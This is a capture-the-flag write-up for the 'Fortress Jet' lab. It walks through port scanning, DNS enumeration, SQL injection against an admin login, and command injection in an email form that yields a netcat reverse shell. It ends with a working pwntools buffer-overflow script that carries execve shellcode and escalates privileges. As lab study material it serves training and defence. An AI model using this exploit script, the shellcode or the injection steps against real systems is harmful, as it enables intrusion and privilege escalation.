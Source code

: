 # Nmap
```bash
Nmap scan report for 10.13.37.10
Host is up, received user-set (0.18s latency).
Scanned at 2024-02-07 12:27:48 +08 for 1513s
Not shown: 65528 closed tcp ports (reset)
PORT      STATE SERVICE  REASON         VERSION
22/tcp    open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 62:f6:49:80:81:cf:f0:07:0e:5a:ad:e9:8e:1f:2b:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzfo72P9KbpK9EZIE/AdtfSawGO5rjNM4GOu1Te5M2Z576c7aEVWv+284kw4OQ6JxQtFL56QsVaxRwxY9jGdpluJw5AWQpASy/Rx8q2JT7yGv0yGI8+tAIjLOMNmq5Qt6IjbDiSbL+gp6a+AsA0Mvm9OUYxBDM+LRsKFjwLDJCzFVKMFGc+gNrYJwpRa9RADsXN/19ogVYG8v9GvqFAJygMyTqVM0fbX3dDcAlMWgcHu81wMmQQGznjLe2gTY/sFAhASAfieVnSYIF11amofP8eUd+6jWL1wSlhRcW+j15tsPcotcfdpCrUJMFXq2tumXfNLJUWhv75Rf8pUeVobsx
|   256 54:e2:7e:5a:1c:aa:9a:ab:65:ca:fa:39:28:bc:0a:43 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBLz7MT1sqbOHsYtNwWDfYJW8uCAPUL+zMJrW2DvIM7a9jG2RI40LNKjtiYv+M6DXjTWr3DK21kIWWK4TKMEl5Wo=
|   256 93:bc:37:b7:e0:08:ce:2d:03:99:01:0a:a9:df:da:cd (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIEEtJp2PzxXAhVXs6nNbgJXgRbLCiB/hcGJY5IgBKfS4
53/tcp    open  domain   syn-ack ttl 63 ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp    open  http     syn-ack ttl 63 nginx 1.10.3 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Welcome to nginx on Debian!
5555/tcp  open  freeciv? syn-ack ttl 63
| fingerprint-strings: 
|   DNSVersionBindReqTCP, GenericLines, GetRequest, adbConnect: 
|     enter your name:
|     [31mMember manager!
|     edit
|     change name
|     gift
|     exit
7777/tcp  open  cbt?     syn-ack ttl 63
9201/tcp  open  http     syn-ack ttl 63 BaseHTTPServer 0.3 (Python 2.7.12)
| http-methods: 
|_  Supported Methods: GET
|_http-title: Site doesn't have a title (application/json).
60006/tcp open  unknown  syn-ack ttl 63
```

# Flag 1 Connect
http://10.13.37.10<br>
![Flag 1](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F1.png)

# Flag 2 Digging In
```bash
dig @10.13.37.10 -x 10.13.37.10 

; <<>> DiG 9.19.19-1-Debian <<>> @10.13.37.10 -x 10.13.37.10
; (1 server found)
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NXDOMAIN, id: 52896
;; flags: qr aa rd; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1
;; WARNING: recursion requested but not available

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4096
;; QUESTION SECTION:
;10.37.13.10.in-addr.arpa.	IN	PTR

;; AUTHORITY SECTION:
37.13.10.in-addr.arpa.	604800	IN	SOA	www.securewebinc.jet. securewebinc.jet. 3 604800 86400 2419200 604800

;; Query time: 347 msec
;; SERVER: 10.13.37.10#53(10.13.37.10) (UDP)
;; WHEN: Wed Feb 07 12:31:06 +08 2024
;; MSG SIZE  rcvd: 109
```
After adding www.securewebinc.jet to /etc/hosts visit www.secureweb.inc.jet
![Flag 2](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F2.png)

# Flag 3 Going Deeper
In Burp we can see the web application is constantly calling to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/stats.php
Visiting http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/ lead us to a login page.


# Flag 4 Bypass Authentication
Error message when attempting to sign in with admin:admin shows that admin user exists. Username parameter is vulnerable to SQL injection. Get the user's password hash with SQLmap and crach it with hashcat. 
![Flag 4](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F4.png)

# Flag 5 Command
Trigger a post request to http://www.securewebinc.jet/dirb_safe_dir_rf9EmcEIx/admin/email.php through the admin dashboard "Quick email" form. Start a netcat listener and receive a reverse shell through command injection.
![Flag 5](https://github.com/ngohuiann/CTF-Write-Ups/blob/main/image/Fortress%20Jet%20F5.png)
```bash
rlwrap nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.13.37.10] 54576
/bin/sh: can't access tty; job control turned off
$ whoami
www-data
$ which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@jet:~/html/dirb_safe_dir_rf9EmcEIx/admin$ ls -la
ls -la
total 120
drwxr-x---  8 root www-data  4096 Jan  3  2018 .
drwxr-x---  3 root www-data  4096 Dec 20  2017 ..
-rw-r--r--  1 root root        33 Dec 20  2017 a_flag_is_here.txt
-rwxr-x---  1 root www-data   157 Jan  3  2018 auth.php
-rwxr-x---  1 root www-data    39 Dec 20  2017 badwords.txt
drwxr-x--- 32 root www-data  4096 Dec 20  2017 bower_components
drwxr-x---  6 root www-data  4096 Oct  9  2017 build
-rwxr-x---  1 root www-data    82 Dec 20  2017 conf.php
-rwxr-x---  1 root www-data 44067 Dec 27  2017 dashboard.php
-rwxr-x---  1 root www-data   600 Dec 20  2017 db.php
drwxr-x---  5 root www-data  4096 Oct  9  2017 dist
-rwxr-x---  1 root www-data   820 Dec 27  2017 dologin.php
-rwxr-x---  1 root www-data  2881 Dec 27  2017 email.php
-rwxr-x---  1 root www-data    43 Dec 20  2017 index.php
drwxr-x---  2 root www-data  4096 Dec 20  2017 js
-rwxr-x---  1 root www-data  3606 Dec 20  2017 login.php
-rwxr-x---  1 root www-data    98 Dec 20  2017 logout.php
drwxr-x--- 10 root www-data  4096 Dec 20  2017 plugins
-rwxr-x---  1 root www-data    21 Nov 14  2017 stats.php
drwxrwxrwx  2 root www-data  4096 Dec 20  2017 uploads
```

# Flag 6 Overflown
```python
import os

os.environ['PWNLIB_NOTERM'] = '1'

from pwn import *

p = remote('10.13.37.10', 60006)
# receive until we see this text
p.recvuntil("Oops, I'm leaking! ")
# store leaked libc base address
leak=int(p.recvuntil("\n"),16)
log.info('Libc address: {}'.format(hex(leak)))
p.recvuntil("> ")
leak2= p64(int(leak))
# execve x64 shellcode 30 bytes - https://www.exploit-db.com/exploits/37362/
payload = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
payload += "A"*(72-len(payload))
payload += str(leak2)
p.sendline (payload)

p.interactive()
```
```bash
www-data@jet:/tmp$ python bof.py
python bof.py
[x] Opening connection to 10.13.37.10 on port 60006
[x] Opening connection to 10.13.37.10 on port 60006: Trying 10.13.37.10
[+] Opening connection to 10.13.37.10 on port 60006: Done
[*] Libc address: 0x7fff808f2a90
[*] Switching to interactive mode
id
id
uid=33(www-data) gid=33(www-data) euid=1005(alex) groups=33(www-data)

ls -la /home/alex
total 916
drwxrwx--- 6 alex alex       4096 Feb  5 06:52 .
drwxr-xr-x 8 root root       4096 Apr  1  2018 ..
-rw-r--r-- 1 root root          0 Dec 28  2017 .bash_history
-rwxrwx--- 1 alex alex        220 Dec 27  2017 .bash_logout
-rwxrwx--- 1 alex alex       3771 Dec 27  2017 .bashrc
drwx------ 2 alex alex       4096 Feb  5 06:15 .cache
drwxr-x--- 3 alex alex       4096 Feb  5 06:46 .config
drwx------ 2 alex alex       4096 Feb  5 06:47 .gnupg
-rwxrwx--- 1 alex alex        655 Dec 27  2017 .profile
drwx------ 2 alex www-data   4096 Feb  5 06:13 .ssh
-rw-r--r-- 1 root root        659 Jan  3  2018 crypter.py
-rw-r--r-- 1 root root       1481 Dec 28  2017 encrypted.txt
-rw-r--r-- 1 root root       7285 Dec 27  2017 exploitme.zip
-rw-r--r-- 1 root root         27 Dec 28  2017 flag.txt
-rw-r--r-- 1 alex www-data      0 Feb  5 06:13 kik
```

